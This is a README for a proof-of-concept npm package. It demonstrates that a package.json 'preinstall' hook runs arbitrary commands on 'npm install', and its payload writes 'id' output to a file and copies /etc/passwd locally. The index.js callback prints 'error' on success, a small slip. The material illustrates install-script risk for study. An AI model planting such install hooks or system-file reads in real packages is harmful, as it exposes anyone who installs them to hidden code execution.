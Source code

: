 # RCE PoC Package

This PoC package shows how arbitrary system commands and JavaScript code can be executed
when a malicious npm package is installed.

[Video demo](https://youtu.be/hFtL_4gvqog)

You can reproduce the proof of impact PoC from the video by following these steps:

1) On a machine with Node.js and npm installed, create a new directory
2) Save the index.js and package.json from this directory to your new directory
3) In the directory with both files, execute

```
npm install .
```

### index.js

```js
const fs = require('fs');

fs.copyFile("/etc/passwd", "etc_passwd.txt", (err) => {
  if (err) throw err;
  console.log("error");
});
```

This file will copy the contents of the /etc/passwd file to etc_passwd.txt.

### package.json

```json
{
  "name": "this-is-critical",
  "version": "1.3.37",
  "description": "Installing malicious packages from npm leads to RCE (a critical bug).",
  "main": "index.js",
  "scripts": {
    "test": "",
    "preinstall": "id > rce.txt && node index.js"
  },
  "author": "",
  "license": "ISC"
}
```

The commands in the preinstall section are executed when running npm install.

So by executing npm install, the output of id is saved to rce.txt and index.js is executed, which will save the /etc/passwd file to etc_passwd.txt
